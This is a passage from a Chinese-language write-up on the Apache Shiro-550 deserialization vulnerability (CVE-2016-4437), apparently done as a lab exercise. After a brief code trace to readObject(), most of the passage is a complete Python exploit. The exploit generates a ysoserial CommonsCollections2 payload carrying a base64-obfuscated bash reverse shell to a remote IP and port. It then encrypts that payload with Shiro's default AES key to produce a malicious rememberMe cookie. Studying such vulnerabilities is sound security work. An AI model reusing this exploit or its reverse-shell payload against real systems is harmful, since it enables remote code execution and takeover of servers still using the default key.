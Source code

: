 解密完成后，调用`AbstractRememberMeManager#deserialize()`执行反序列化操作。
再跟进`AbstractRememberMeManager#deserialize()`，发现会调用`DefaultSerializer#deserialize()`，继续跟进发现，看到了熟悉的`readObject()`方法。

![](pic/shiro550-8.png)


# 0x02 漏洞利用

根据上面的分析，下面可以写漏洞利用了。
因为本次使用的 `vulfocus/shiro-cve_2016_4437`这个漏洞环境，依赖有`commons-collections4:4.0`，所以这里使用`ysoserial`的`CC2`这个利用链的`payload`来执行反弹shell。代码如下：

```python
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto import Random
import base64
import subprocess
import uuid

popen = subprocess.Popen(['java', '-jar', 'files/ysoserial-0.0.6-SNAPSHOT-all.jar', 'CommonsCollections2', "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuMy80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}"], stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
key = "kPH+bIxk5D2deZiIxcaaaA=="
mode = AES.MODE_CBC
iv = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(key), mode, iv)
file_body = pad(popen.stdout.read())
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
print(base64_ciphertext.decode())
```
